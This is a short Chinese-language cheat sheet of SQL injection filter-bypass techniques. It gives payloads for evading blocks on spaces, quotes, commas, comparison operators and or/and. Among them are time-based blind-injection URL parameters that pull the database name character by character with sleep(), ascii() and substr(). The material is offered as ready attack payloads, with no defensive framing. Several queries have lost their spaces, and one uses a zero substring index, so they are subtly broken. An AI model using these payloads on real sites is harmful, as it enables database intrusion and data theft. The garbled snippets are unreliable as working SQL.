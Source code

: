 
## 绕过技巧

1. 空格 
    
    注释符 `/* */` ，编码 `%a0`
    
    括号绕过空格，常用于`time based`盲注
    
    ```bash
    ?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
    ```
    
2. 引号绕过
    
    十六进制
    
    ```bash
    selectcolumn_namefrominformation_schema.tableswheretable_name="users"
    ```
    
    ```bash
    selectcolumn_namefrominformation_schema.tableswheretable_name=0x7573657273
    ```
    
3. 逗号绕过
    
    常用于`limit`或者`substr`
    
    ```bash
    ?id=1' and if(ascii(substr(database() from 1 for 1))=115,sleep(5),1)--+
    // 等价于
    ?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+
    ```
    
    ```bash
    select*fromnews limit0,1
    //
    select*fromnews limit 1 offset 0
    ```
    
4. 比较符号绕过
    
    在盲注使用二分法的时候可以用到
    
    ```bash
    select * from users where id=1 and ascii(substr(database(),0,1))>64
    // 
    select* from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
    ```
    
5. or and 绕过
    
    ```bash
    || &&
    ```
    
6. 绕过闭合符号 `--+` `#`
    